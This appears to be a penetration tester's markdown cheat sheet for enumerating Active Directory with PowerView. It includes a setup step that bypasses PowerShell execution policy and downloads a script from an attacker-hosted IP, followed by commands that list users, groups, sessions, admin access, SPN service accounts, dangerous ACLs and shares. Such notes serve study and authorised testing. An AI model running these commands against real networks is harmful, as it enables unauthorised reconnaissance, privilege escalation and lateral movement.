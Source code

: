 #### Setup ([https://powersploit.readthedocs.io/en/latest/Recon/](https://powersploit.readthedocs.io/en/latest/Recon/))
```
powershell -ep bypass

iwr -uri http://192.168.45.154:8000/powerview.ps1 -Outfile powerview.ps1

Import-Module .\PowerView.ps1
```

#### Commands

#### Enumerating Domain
```
Get-NetDomain
```
#### Enumerating Users
```
Get-NetUser
Get-NetUser <username>
Get-NetUser | select <attribute>,<attribute>,<attribute>
```
#### Enumerating Groups
```
Get-NetGroup
Get-NetGroup <groupname>
Get-NetGroup | select <attribute>,<attribute>,<attribute>
Get-NetGroup | Where-Object { $_.member -like "<user>*" } | Select-Object cn, member - show all groups member is a apart of.
```
#### Enumerating Computer Information
```
Get-NetComputer
Get-NetComputer | select dnshostname,<attribute>
```

#### Understanding Privileges
```
Find-LocalAdminAccess - attempts to find any computer that the current user has administrative privileges on.
Get-NetSession -ComputerName <computername> - attempts identify which user is logged into what computer.
.\PsLoggedon.exe [\\<computername>](file://%3ccomputername%3e) - enumerates who is logged into a computer.
```
#### Service Accounts
```
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```

#### Enumerating Object Permissions
```
Get-ObjectAcl -Identity <users> - enumerates all objects that has an ACL entry for a particular user.
Convert-SidToName <SID>

#check if user has GeneralAll property this is the highest privilege within AD.
Get-ObjectAcl -Identity "Backup Operators" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

Find-InterestingDomainAcl | select IdentityReferenceName,ActiveDirectoryRights,AceType,ObjectDN,SecurityIdentifier | ?{$_.IdentityReferenceName -NotContains "DnsAdmins"}
```

#### Enumerating Shares
```
Find-DomainShare
net view \\<hostname\ip>
ls \\<hostname>\<sharename>\
cat \\<hostname>\<sharename>\
```